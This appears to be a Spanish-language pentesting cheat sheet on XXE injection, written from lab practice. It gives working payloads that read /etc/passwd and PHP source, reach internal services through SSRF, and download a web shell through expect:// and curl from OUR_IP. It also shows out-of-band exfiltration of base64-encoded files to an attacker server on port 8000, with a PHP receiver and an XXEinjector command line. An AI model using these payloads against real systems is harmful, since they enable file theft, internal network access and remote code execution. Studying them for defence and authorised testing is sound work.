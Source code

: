 ### Siempre agregar las entidades luego de la declaración del XML!!!

### Idenificación

CUando encontramos alguna request que posea un xml, primero vemos si alguno de los datos de la misma se ve reflejado en la response.
Luego inyectamos en ese dato una nueva entidad:

    <!DOCTYPE "nombre" [
      <!ENTITY "variable" "dato de la entidad">
    ]>

Para llamar a la nueva entidad rellenamos el campo del xml con "&variable;" 
Si el formulario es vulnerable mostrará el dato de la entidad, de no serlo mostrará &variable;


#### Leer archivos del sistema:
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "file:///etc/passwd">
        ]>

#### Leer archivos mediante un svg:

#### creamos un svg con el siguiente contenido:


        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg>&xxe;</svg>

##### Opción2:

        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

#### Obtener el código de la página php:
            <!DOCTYPE email [
          <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
        ]>



#### SSRF
podemos injectar ssrfs en el xml con el fin de alcanzar servicios internos no expuestos.

        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>

#### XInclude

De a ratos nos encontramos con sitios que al hacer una request nos piden datos que luego serán parseados en el back-
end para agrergarse a un xml. ¿Cómo las distinguimos? No sabemos, simplemente hay que probar.
Para hacer una xxe, reemplazamos el parámetro que se está enviando por:

        <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

#### RCE:
##### 1)Si el módulo de php expect está instalado y permitido podríamos usar directamente: "expect://'comando'"

##### 2)Podemos generar una injección de una shell:
###### a)creamos la shell.php
###### b)Levantamos un servidor
###### c) inyectamos el siguiente código:
        <?xml version="1.0"?>
        <!DOCTYPE email [
          <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
        ]>
        <root>
        <name></name>
        <tel></tel>
        <email>&company;</email>
        <message></message>
        </root>






### Lectura avanzada de archivos:

#### CDATA:

Nos permite engañar al backend tomando el contenido como raw:


Ejemplo no aplicable:

<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>

Desde que se prohibió el joined como medio interno, nos vemos obligado a usarlo desde afuera:

LaPorota@htb[/htb]$ 

        echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

##### Injection
        <!DOCTYPE email [
          <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
          <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
          <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
          <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
          %xxe;
        ]>
        ...
        <email>&joined;</email> <!-- reference the &joined; entity to print the file content -->



### ERROR BASED XXE:

Probamos romper el xml en la request para ver como lo resuelve el backend.

Si el error nos brinda información sobre directorios o subdirectorios con rutas podemos:

#### Crear un dtd:
        <!ENTITY % file SYSTEM "file:///etc/hosts">
        <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">

y luego referenciarlo desde la request:

        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %error;
        ]>




### Blind xxe
#### Out-of-band Data Exfiltration

cramos un xml en nuestro servidor:

        <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
        <!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">

##### luego un index.php
        <?php
        if(isset($_GET['content'])){
            error_log("\n\n" . base64_decode($_GET['content']));
        }
        ?>

##### Levantamos el servidor php:
        php -S 0.0.0.0:8000

##### Inyectamos la entidad:
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE email [ 
          <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
          %remote;
          %oob;
        ]>
        <root>&content;</root>

##### Podemos automatizar el ataque con herramientas como xxeinjector:

        git clone https://github.com/enjoiz/XXEinjector.git


##### Guardamos la request http que tenemos en burp a un archivo desde el inicio hasta la declaración del xml y agregamos xxeinject ej:

POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.201.94

Content-Length: 169

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.201.94

Referer: http://10.129.201.94/blind/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

        <?xml version="1.0" encoding="UTF-8"?>
        XXEINJECT

##### luego corremos la herramienta con:
        ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter


